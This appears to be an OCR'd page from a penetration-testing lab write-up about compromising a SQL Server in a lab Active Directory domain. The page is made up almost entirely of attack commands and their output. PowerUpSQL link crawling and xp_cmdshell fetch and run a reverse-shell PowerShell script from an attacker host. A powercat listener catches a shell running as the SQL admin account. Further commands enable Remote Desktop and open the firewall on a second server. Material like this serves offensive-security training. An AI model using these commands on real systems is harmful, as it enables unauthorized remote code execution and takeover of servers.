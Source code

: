 ```powershell
Get-SQLServerLinkCrawl -Instance devsrv.Nebula.Cosmos.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.10.1/Invoke-PowerShellTCP-reverse.ps1'')"'

Invoke-SQLOSCmd -Instance devsrv.nebula.cosmos.local -Command "powershell iex (New-Object Net.WebClient).DownloadString('http://172.16.10.1/Invoke-PowerShellTcp-reverse.ps1')"

ComputerName Instance CommandResults

------------ -------- --------------

devsrv.nebula.cosmos.local devsrv.nebula.cosmos.local


PS C:\ad\tools> powercat -l -v -p 443 -t 555555

VERBOSE: Set Stream 1: TCP

VERBOSE: Set Stream 2: Console

VERBOSE: Setting up Stream 1...

VERBOSE: Listening on [0.0.0.0] (port 443)

VERBOSE: Connection from [172.16.3.31] port [tcp] accepted (source port 49718)

VERBOSE: Setting up Stream 2...

VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...

Windows PowerShell running as user devsqladmin on DEVSRV

Copyright (C) 2015 Microsoft Corporation. All rights reserved.

  

PS C:\Windows\system32>

  

PS C:\Windows\system32> PS C:\Windows\system32>

PS C:\Windows\system32> whoami

nebula\devsqladmin

PS C:\Windows\system32>
```

the entire process is as follows:


[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp